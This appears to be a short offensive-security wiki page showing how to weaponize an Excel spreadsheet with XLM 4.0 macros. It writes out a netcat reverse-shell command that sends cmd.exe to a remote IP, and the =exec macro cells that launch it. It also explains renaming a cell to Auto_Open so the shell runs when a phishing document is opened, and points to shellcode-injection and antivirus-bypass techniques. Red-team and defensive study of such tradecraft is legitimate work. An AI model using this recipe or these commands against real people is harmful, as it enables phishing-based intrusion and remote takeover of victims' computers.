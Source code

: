 # ⭕ XLM Macro 4.0

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://fortynorthsecurity.com/blog/excelntdonut" %}

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](<../../.gitbook/assets/image (38).png>)

shell.cmd :&#x20;

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

We can then execute command by typing into the cells:

```
=exec("c:\shell.cmd")
=halt()
```

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](<../../.gitbook/assets/image (20) (1).png>)

{% file src="../../.gitbook/assets/Excel 4.0 Macro Functions Reference (1).pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" %}

Opening the document and enabling Macros pops a reverse shell:

![](<../../.gitbook/assets/image (15).png>)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

{% embed url="https://blog.sevagas.com/Launch-shellcodes-and-bypass-Antivirus-using-MacroPack-Pro-VBA-payloads" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros" %}

{% embed url="https://malsechunter.wordpress.com/2020/12/13/malicious-document-shellcode-injection" %}

{% embed url="https://securityonline.info/badassmacros-c-based-automated-malicous-macro-generator" %}

